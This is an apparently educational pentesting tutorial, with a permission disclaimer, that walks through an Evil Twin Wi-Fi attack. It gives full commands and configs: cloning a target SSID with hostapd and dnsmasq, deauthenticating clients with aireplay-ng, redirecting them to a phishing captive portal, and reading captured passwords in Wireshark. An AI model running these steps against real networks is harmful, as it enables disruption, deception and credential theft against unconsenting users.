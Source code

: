 # Evil-Twin Attack



{% hint style="danger" %}
This is for educational purposes and only to be performed on networks you have permission to do so.
{% endhint %}

Basic info on Wireless can be found [here](../../networking/wireless/).\
\
This will be a walk through on performing an [Evil Twin wireless attack](https://www.varonis.com/blog/evil-twin-attack) and [Captive Portals](https://www.linksys.com/what-is-a-captive-portal.html).

An evil twin is a fake wireless access point(AP) that looks like a real one. The concept is to set up a malicious wireless network with the same SSID name as the target.

This is not required to have a WiFi Adapter that supports monitor mode, also known as packet injection. Though this will required if kicking clients off their network to connect to ours.

## Hardware

I myself have and recommend these adapters:

* [Alfa AWUS036ACM](https://www.amazon.com/Alfa-AWUS036ACM-Long-Range-Dual-Band-Wireless/dp/B073X6RL9D) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACHM](https://www.amazon.com/gp/product/B08SJBV1N3/ref=ox\_sc\_act\_title\_1?smid=A20G3A026MV70R\&psc=1) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACH](https://www.amazon.com/dp/B08SJC78FH?ref\_=cm\_sw\_r\_cp\_ud\_dp\_PSZZG6J9X0XH40GXB685) <-- Capable of 2.4GHz and 5GHz (This more than likely \*will\* require driver installation)
* [Panda Wireless PAU09 N600](https://www.amazon.com/Panda-Wireless-PAU09-Adapter-Antennas/dp/B01LY35HGO) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036NEH](https://www.amazon.com/AWUS036NEH-Range-WIRELESS-802-11b-USBAdapter/dp/B0035OCVO6)
* [Alfa AWUS036NH](https://www.amazon.com/Alfa-AWUS036NH-802-11g-Wireless-Long-Range/dp/B003YIFHJY)
* [Panda Wireless PAU05](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2)
* [TP-Link TL-WN722N](https://www.amazon.com/TP-Link-TL-WN722N-Wireless-network-Adapter/dp/B002SZEOLG)
* [Ralink USB WiFi RT5370](https://www.amazon.com/Ralink-RT5370-Raspberry-Adapter-Function/dp/B019XUDHFC)

You can also use a device such as [WiFi Pineapple](https://shop.hak5.org/products/wifi-pineapple). This primarily works on open networks.

First we install the prerequisites

```
sudo apt install -y dnsmasq and hostapd aircrack-ng
```

## Finding target

First we find our target, I will target "Open-WiFi" in this example. we use airodump for this

```
sudo airodump-ng (interface) 
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Kill process that may interfere

```
sudo airmon-ng check kill
```

<figure><img src="../../.gitbook/assets/image (464).png" alt=""><figcaption></figcaption></figure>

now put the interface into monitor mode if we're deauthenticating a client.

```
sudo airmon-ng start (interface)
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Setup AP

Create `dnsmaqs.conf` file

```
# Set the wifi interface
interface=(interface)

# Set the IP range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,255.255.255.0,8h

# Set the gateway IP address
dhcp-option=3,10.0.0.1

# Set DNS server address
dhcp-option=6,10.0.0.1

# Set Server
server=8.8.8.8

# logs
log-queries
log-dhcp

# Redirect all requests to 10.0.0.1
#address=/#/10.0.0.1

# Redirect google to 10.0.0.1
#address=/google.com/10.0.0.1
#address=/www.google.com/10.0.0.1
#address=/google.com/www.google.com.com/10.0.0.1
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Note to uncomment lines. if we uncomment the `#address=/#/10.0.0.1` this will let clients connect but they will not get internet access as the pound sign(`#`) is a wildcard for dnsmasq. So they will connect to the AP, then immediately asked to sign-in with the Evil Portal that is setup.

So instead we can redirect websites back to our Evil Portal instead.

Create `hostapd.conf` and fill in with target info

```
interface=(interface)
driver=nl80211
ssid=(Target AP)
hw_mode=g
channel=(Target channel)
macaddr_acl=0
ignore_broadcast_ssid=0
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Assign the interface a gateway and netmask

```
sudo ifconfig (interface) up 10.0.0.1 netmask 255.255.255.0
```

Add the routing table

```
sudo route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

Setup an easy script for IP with:

```
sudo iptables --flush
sudo iptables --table nat --append POSTROUTING --out-interface (internet interface) -j MASQUERADE 
sudo iptables --append FORWARD --in-interface (wireless interface) -j ACCEPT 
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I named mine IP-Tables.sh. Make it executable and run it

```
chmod +x IP-Tables.sh
sudo ./IP-Tables.sh
```

If you want the AP setup without using a captive portal, just run dnsmasq and hostapd

Start dnsmasq with

```
sudo dnsmasq -C (path/to/dnsmasq.conf)
```

Start hostapd with

```
sudo hostapd (path/to/hostapd.conf)
```

We can run the command with a -B at the end to push it to the background. Though if we do this, we don't see when a client connects

```
sudo hostapd (path/to/hostapd.conf) -B
```

### Captive Portals

Put your captive portal files, and put them in the `/var/www/html/` directory.

[Example Portals here](https://github.com/Th4ntis/Evil-Portals.git)

Edit `/etc/apache2/sites-enabled/000-default.conf` and add the following to the end

```
sudo nano /etc/apache2/sites-enabled/000-default.conf
```

```
<Directory "/var/www/html">
RewriteEngine On
RewriteBase /
RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]

RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>
```

<figure><img src="../../.gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

Start the web server

```
sudo service apache2 start
```

Start dnsmasq with:

```
sudo dnsmasq -C (path/to/dnsmasq.conf)
```

Start hostapd AP with:

```
sudo hostapd (path/to/hostapd.conf)
```

We can run the command with a -B at the end to push it to the background. Though if we do this, we don't see when a client connects

```
sudo hostapd (path/to/hostapd.conf) -B
```

<figure><img src="../../.gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

Once we're ready, we can disconnect clients from their network to connect to ours with aireplay.

```
sudo aireplay-ng -0 0 -a (BSSID) (interface)
```

OR if we want to deauth a specific client:

```
sudo aireplay-ng -0 0 -a (bssid) -c (Client MAC Address) (interface)
```

the `-0 0` will send deauth packets continuously until stopped. we can change it to `-0 10` to send just 10 deauth packets.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Post connection

Once they are connected, or even before, we can start intercepting traffic with whatever tools we want, like [Wireshark](../../networking/wireshark.md), [tshark](https://www.wireshark.org/docs/man-pages/tshark.html), [tcpdump](https://www.tcpdump.org/), etc. In this case I'll use wireshark on `wlan0`, the interface I was broadcasting from.

<figure><img src="../../.gitbook/assets/image (467).png" alt=""><figcaption></figcaption></figure>

As the user attempts to go to any page, they are taken to a login portal, asked enter a username/password on the portal and it will be captured.

We look for `HTTP Post Request` , then HTML Form URL Encoded, we will see their credentials.

<figure><img src="../../.gitbook/assets/image (468).png" alt=""><figcaption></figcaption></figure>

#### Wireshark to filter for packets

* `dns and ip.adr=(IP)` to see sites they are going to
* `frame contains (word)` will search for various words
* `http.request.method=="POST"` will show us login info.
